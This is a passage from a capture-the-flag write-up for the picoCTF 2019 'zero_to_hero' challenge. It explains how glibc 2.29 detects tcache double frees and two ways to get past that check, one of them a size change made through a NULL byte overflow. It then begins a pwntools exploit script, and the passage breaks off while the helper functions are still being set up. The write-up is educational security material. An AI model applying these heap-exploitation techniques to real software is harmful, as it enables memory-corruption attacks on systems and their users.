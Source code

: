 At [2], we see that it first checks to see whether the tcache chunk's `key` field (again, essentially its `bk` pointer) is equal to the address of the `tcache_perthread_struct` on the heap. If it is, then it starts going through this tcache chunk's corresponding tcache bin.

If it finds this chunk already in that tcache bin, then it will error out and call `malloc_printerr` and output `free(): double free detected in tcache 2`.

Therefore we have the following condition:
```
When free is called on chunk:
IF (chunk->key == &tcache_perthread_struct AND
  tcachebin[chunk_idx] contains this chunk) THEN:
    DOUBLE FREE DETECTED
```

Knowing all this, we can double free in the following two ways:

1. Free the chunk, then use a UAF to overwrite `chunk->key` to any other value, and we will be able to free it again.

2. Free the chunk into one tcache bin, then change its size. You can immediately free it again and put it into a different tcache bin. You can then get the chunk back from the old tcache bin (prior to its size change) and immediately free it again due to the `e->key` field being nulled out. Now the new (second) tcache bin will have a double freed chunk in it.

For this challenge, we utilize the single NULL byte overflow to do it the second way.

#### Exploitation steps

First, as usual, we create our helper functions as follows:
```python
#!/usr/bin/env python2

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

BINARY = './zero_to_hero'
HOST, PORT = '2019shell1.picoctf.com', 49929

elf = ELF(BINARY)
libc = ELF('./libc-2.29.so')

def debug(breakpoints):
    script = ""
    for bp in breakpoints:
        script += "b *0x%x\n"%(bp)
    gdb.attach(p,gdbscript=script)

# Application logic

def initialize(answer):
    p.recv()
    p.send(answer)

def add(size, content):
    p.sendlineafter('> ', '1')
    p.sendlineafter('> ', str(size))
    p.sendafter('> ', content)

def free(idx):
    p.sendlineafter('> ', '2')
    p.sendlineafter('> ', str(idx))

def start():
    if not args.REMOTE:
```